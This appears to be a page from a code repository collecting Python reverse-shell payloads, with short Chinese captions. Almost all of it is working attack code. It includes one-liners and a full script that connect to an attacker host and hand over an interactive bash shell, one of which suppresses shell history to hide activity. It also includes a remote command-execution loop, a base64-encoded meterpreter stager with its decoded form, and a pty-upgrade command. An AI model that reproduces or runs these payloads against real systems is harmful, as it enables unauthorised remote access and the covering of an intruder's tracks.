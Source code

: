```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

脚本：

```python
#!/usr/bin/python3
import  os
import pty
import socket
lhost = ""
lport = 4444
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   #os.remove('/tmp/.t.py')
   s.close()
if __name__ == "__main__":
   main()
```

```
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('ip',port))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

```
msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=ip LPORT=port
import base64; exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsMSkKcy5jb25uZWN0KCgnMTkyLjE2OC45MC4xJywxMjM0KSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdig0MDk2KQp3aGlsZSBsZW4oZCkhPWw6CglkKz1zLnJlY3YoNDA5NikKZXhlYyhkLHsncyc6c30pCg=='))
上面那段的base64解码为：
import socket,struct
s=socket.socket(2,1)
s.connect(('192.168.90.1',1234))
l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(4096)
while len(d)!=l:
	d+=s.recv(4096)
exec(d,{'s':s})
```

python升级完美pty：

```
python3 -c 'import pty;pty.spawn("bash")'
```
